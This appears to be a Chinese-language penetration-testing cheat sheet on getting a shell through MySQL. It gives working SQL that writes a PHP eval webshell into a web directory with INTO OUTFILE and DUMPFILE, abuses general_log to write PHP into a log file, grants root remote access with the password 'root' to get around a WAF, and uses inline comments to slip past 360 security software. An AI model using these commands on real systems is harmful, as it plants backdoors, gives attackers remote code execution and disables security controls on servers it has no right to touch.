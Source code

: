 **写入权限**
查看能否自定义导出文件目录的权限

`SHOW VARIABLES LIKE "secure_file_priv";`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/1541693041317.png)

如果值为文件夹目录，则只允许修改目录下的文件，如果值为`NULL`则为禁止。
并且这个值是只读变量，只能通过配置文件修改。


```
show global variables like "%secure%";      //查询secure_file_priv配置
secure_file_prive=null              //不允许导入导出数据到目录
secure_file_priv=c:\90sec            //允许导入导出数据到指定目录
secure_file_priv=''              //允许导入导出数据到任意目录
secure_file_priv="/"              //允许导入导出数据到任意目录
```
注：
在`my.ini`、`my.cnf`、`mysqld.cnf`文件中找到`secure_file_prive`
并将其值设置为`""`或`"/"`，重启MySQL服务！

### 常规方法

**创建数据表导出shell**

```
CREATE TABLE `mysql`.`shadow9` (`content` TEXT NOT NULL );
INSERT INTO `mysql`.`shadow9` (`content` ) VALUES ('<?php @eval($_POST[pass]);?>');
SELECT `content` FROM `shadow9` INTO OUTFILE 'C:\\phpStudy\\WWW\\90sec.php';
DROP TABLE IF EXISTS `shadow9`;
```

 **一句话导出shell**

```
select '<?php @eval($_POST[pass]);?>' into outfile 'c:/phpstudy/www/90sec.php';  
select '<?php @eval($_POST[pass]);?>' into outfile 'c:\\phpstudy\\www\\90sec.php';
select '<?php @eval($_POST[pass]);?>' into dumpfile 'c:\\phpstudy\\www\\bypass.php';
```

**日志备份获取shell**

```
show global variables like "%genera%";          //查询general_log配置
set global general_log='on';              //开启general log模式
SET global general_log_file='D:/phpStudy/WWW/cmd.php';    //设置日志文件保存路径
SELECT '<?php phpinfo();?>';              //phpinfo()写入日志文件
set global general_log='off';              //关闭general_log模式
```

### 绕过写入
当有WAF拦截的时候 我们可以尝试外链 这样提交的数据包不被WAF拦截
`grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;     //开启MySQL外链`
`flush privileges;                      //刷新MySQL系统权限相关表`

这里的这些技巧是从别人那边收集过来的 感谢！！！
绕过360 （通过内联注释）
`select '<?php @eval($_POST[pass]);?>' into /*!50001outfile*/ 'c:/phpstudy/www/bypass.php';`
